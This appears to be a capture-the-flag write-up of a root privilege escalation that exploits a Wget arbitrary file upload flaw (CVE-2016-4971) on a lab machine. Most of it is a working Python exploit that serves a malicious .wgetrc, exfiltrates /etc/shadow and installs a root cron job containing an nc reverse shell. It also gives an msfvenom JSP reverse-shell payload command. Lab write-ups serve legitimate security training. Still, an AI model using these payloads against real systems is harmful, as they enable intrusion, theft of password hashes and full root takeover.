

The app.log file in root's home folder showed that server 10.0.3.133 was doing a GET request for /archive.tar.gz using an old version of wget.



Doing a searchsploit search for wget showed an arbitrary file upload / rce vulnerability.



> GNU Wget before 1.18 when supplied with a malicious URL (to a malicious or compromised web server) can be tricked into saving an arbitrary remote file supplied by an attacker, with arbitrary contents and filename under the current directory and possibly other directories by writing to .wgetrc. Depending on the context in which wget is used, this can lead to remote code execution and even root privilege escalation if wget is run via a root cronjob. The full write-up can be found here: http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt

The POC works by listening on port 80 and responding with a 302 redirect that the target will follow to my box on port 21. At the root of the ftp server on my box is a .wget which instructs wget (via "post_file") on the next run to display the contents of a file, /etc/shadow in this case, and create a cron job (via "output_document").

I modified the script by setting the listen IP to 0.0.0.0 (all interfaces), set the ftp host to my tun0 IP address, and create a cron job that will call back to kotarak-dmz on port 3000.

```
HTTP_LISTEN_IP = "0.0.0.0"
FTP_HOST = '10.10.14.29'
ROOT_CRON = "* * * * * root /bin/sh rm /tmp/z;mkfifo /tmp/z;cat /tmp/z|/bin/sh -i 2>&1|nc 10.10.10.55 3000 >/tmp/z"
```

```
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.29'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

I transferred exploit.py to target host, first creating a python http server to host the file.
```
wget http://10.10.14.29/exploit.py
```

On my box I started an FTP listener
```
python -m pyftpdlib --port=21
```

Running the exploit threw an error: "socket.error: [Errno 99] Cannot assign requested address". 



There is a workaround using [Authbind](https://manpages.ubuntu.com/manpages/xenial/man1/authbind.1.html) which allows binding sockets to privileged ports without root and this worked.

```
authbind python ./exploit.py
```



Because I was going to be running the exploit and listening on netcat on port 3000 I needed a second session. I create a second payload with msfvenom for port 4201 and uploaded it to Tomcat Web Application Manager.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4201 -f war > rshell2.war
```

Once logged in on the second session I set up a netcat listener for port 3000.

```
nc -lvnp 3000
```

Once the container downloaded the .wgetrc file and created the cron job I waited and after a few minutes I received a callback and had shell as the root user.




